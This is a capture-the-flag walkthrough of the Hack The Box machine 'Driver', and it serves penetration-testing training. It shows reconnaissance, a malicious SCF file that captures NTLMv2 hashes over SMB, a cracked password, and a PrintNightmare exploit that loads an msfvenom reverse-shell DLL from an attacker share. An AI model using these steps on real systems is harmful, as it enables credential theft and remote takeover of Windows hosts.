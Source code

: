 <p align="center"><img src="img/banner.png" alt="Banner"></img></p>
<p align="center">Machine creator: <a href="https://app.hackthebox.com/profile/13531">MrR3boot</a></p>

[![f4T1H21](https://www.hackthebox.eu/badge/image/184235)](https://app.hackthebox.eu/profile/184235)
<br>
<a href=https://www.buymeacoffee.com/f4T1H21>
  <img src="https://github.com/f4T1H21/f4T1H21/blob/main/support.png" width="221" height="40" alt="Support">
  </img>
</a>
<br>

---
# Reconnaissance
### Nmap result
```
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-01-24T19:06:51
|_  start_date: 2022-01-24T18:23:54
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m58s
```

## `445/tcp` SMB service
We can neither log in with dumb credentials nor without credentials.
So there's nothing to do except bruteforce and this is not our first scope though.

## `135/tcp` MSRPC service
### Impacket's `rpcdump` result
We see the box can be vulnerable to PrintNightmare (CVE-2021-1675)

```console
┌──(root💀f4T1H)-[~/hackthebox/driver]
└─# impacket-rpcdump @10.10.11.106 | egrep 'MS-RPRN|MS-PAR'
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```

## `80/tcp` HTTP service
`driver.htb` asks us for an admin password at first and accepts `admin:admin`.

Firmware Update button forwards us to `/fw_up.php`, and we see a file upload section there.

![firmwareUpdates](img/firmwareUpdates.png)

At that point, the initial thought of mine was uploading a php reverse shell as you can expect. But no uploads directory existence, so it didn't make sense.

At this point, I learnt a new attack vector for SMB! Grabbing user's password hashes using `scf` files.

# Foothoold: Grab user authentication hash using `smb` path in `scf` files

Let's have a look at what an `scf` file actually is.
>SCF stands for Shell Command File and is a file format that supports a very limited set of Windows Explorer commands, such as opening a Windows Explorer window or showing the Desktop. The "Show Desktop" shortcut we all use on a daily basis is an SCF file.

This files are also able to connect an smb share if any given.<br>
The blog post below explains the metodology of abusing this behaviour step by step.

https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/

- Start an smb server (or a pre-configured relay, such as `responder`).
- Create an scf file.
- Upload it.
- File gets executed as soon as a user browses in the directory of the file. (Look at the squared area in above screenshot)
- Get your NTLM user hash from your server.

By the way, there's a feature in windows (in linux too) that puts files starts with an '@' symbol before other files. And works for folders too.

#### @f4T1H.scf
```
[Shell]
Command=2
IconFile=\\10.10.14.62\doesnot\exists
[Taskbar]
Command=ToggleDesktop
```

#### `responder -w --lm -v -I tun0`

After uploading the file, we receive an authentication attempt in our `responder`.

![responder](img/responder.png)

### John The Ripper
```
┌──(root💀f4T1H)-[~/hackthebox/driver]
└─# john -w=/usr/share/wordlists/rockyou.txt ntlmv2
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony          (tony)     
1g 0:00:00:00 DONE (2022-01-25 07:45) 25.00g/s 793600p/s 793600c/s 793600C/s !!!!!!..225566
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

# Privilege Escalation: PrintNightmare (CVE-2021-1675)
First things first, generate a windows reverse shell payload using `msfvenom`.

```console
┌──(root💀f4T1H)-[~/hackthebox/driver]
└─# msfvenom -ax64 --platform windows -p windows/x64/shell_reverse_tcp LHOST=10.10.16.42 LPORT=2121 -f dll -o revshell.dll
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 8704 bytes
Saved as: revshell.dll
```

Second things second, clone impacket implementation of PrintNightmare from: https://github.com/cube0x0/CVE-2021-1675

Third things third, start an smb server of your choice (mine is impacket :).

```console
┌──(root💀f4T1H)-[~/hackthebox/driver]
└─# impacket-smbserver -ip 10.10.16.42 f4T1H .             
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Fourth thing fourth, run the exploit with the proper positional arguments.
```console
┌──(root💀f4T1H)-[~/hackthebox/driver/CVE-2021-1675]
└─# python3 CVE-2021-1675.py DRIVER/tony:liltony@10.10.11.106 '\\10.10.16.42\f4T1H\revshell.dll'
[*] Connecting to ncacn_np:10.10.11.106[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\10.10.16.42\f4T1H\revshell.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
```

![root](img/root.png)

---

# Resources

|__`SMB SCF file attacks`__|__https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/__|
|:-|:-|
|__`CVE-2021-1675 PrintNightmare`__|__https://github.com/cube0x0/CVE-2021-1675__|

<br>

___─ Written by f4T1H ─___